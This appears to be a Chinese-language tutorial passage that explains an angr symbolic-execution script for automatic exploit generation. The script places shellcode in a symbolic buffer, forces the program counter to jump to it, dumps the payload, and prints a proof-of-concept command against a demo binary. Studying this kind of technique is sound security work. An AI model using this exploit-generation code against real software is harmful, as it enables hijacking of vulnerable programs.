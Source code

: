 ```python
	rrr=find_symbolic_buffer(exp,len(shellcode))
	for addr in rrr:
		print addr
		mem		= exp.memory.load(addr,len(shellcode))
		payload = exp.solver.BVV(shellcode)
		if exp.satisfiable(extra_constraints=(mem==payload,exp.regs.pc==addr)):
			exp.add_constraints(mem==payload)
			exp.add_constraints(exp.regs.pc==addr)
			break
			#seak for a exploitable state
	else:
		return False
	print "PAYLOAD->./payload"
	fp=open("./payload","wb")
	fp.write(exp.posix.dumps(0))
	fp.close()
	print "Poc:\n(cat ./payload; cat -)| ./demo_bin"
	
if __name__ == "__main__":
	logging.getLogger("angr").setLevel("ERROR")
	main()

```

# options
首先脚本里面提及了两个需的`option`
`REVERSE_MEMORY_NAME_MAP`可以在[angr-doc][2]中找到;`TRACK_ACTION_HISTORY`我网上找了一下发现有位师傅@23R3F给出了说明.
|options|Description|
|---|---|
|REVERSE_MEMORY_NAME_MAP|Maintain a mapping from symbolic variable name to which addresses it is present in, required for memory.replace_all|
|TRACK_ACTION_HISTORY|TRACK_ACTION_HISTORY 則是可以记录之前执行过的 ACTION ，可查看路径中的历史action记录(@[23R3F][0])|

因为我们后面会需要找出内存中的`symbol`的地址来检验是否存在连续足够长的`buf`所以需要`REVERSE_MEMORY_NAME_MAP`,后面那个我就不知道什么时候会用到了...我尝试不增加`TRACK_ACTION_HISTORY`也发现能跑...
了解了options之后再来看看几个之前没用过的函数和几个脚本里面的函数.
# fully_symbolic
```python
#fully_symbolic
def fully_symbolic(s,var):
	for x in range(s.arch.bits):
		if not s.solver.symbolic(var[x]):
			return 0
	return 1
```
比较简单就是判断var的每一位是不是都是`symboc`,后面主要用来判断`pc`是不是可以完全被控制.
# check_continuity
```python
#check_continuity
def check_continuity(addr,addrs,l):
	for x in range(l):
		if addr+x not in addrs:
			return 0 
	return 1
```
`check_continuity`用来判断[`addr`,`addr+l`)是不是含于`addrs`,主要为`find_symbolic_buffer`服务.
# get_variables

[0]: https://23r3f.github.io/2019/09/25/angr%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/
[1]: https://github.com/angr/angr-doc/tree/master/examples/insomnihack_aeg
[2]: https://docs.angr.io/appendix/options
[3]: https://github.com/n132/Watermalon/tree/master/Angr-examples/C7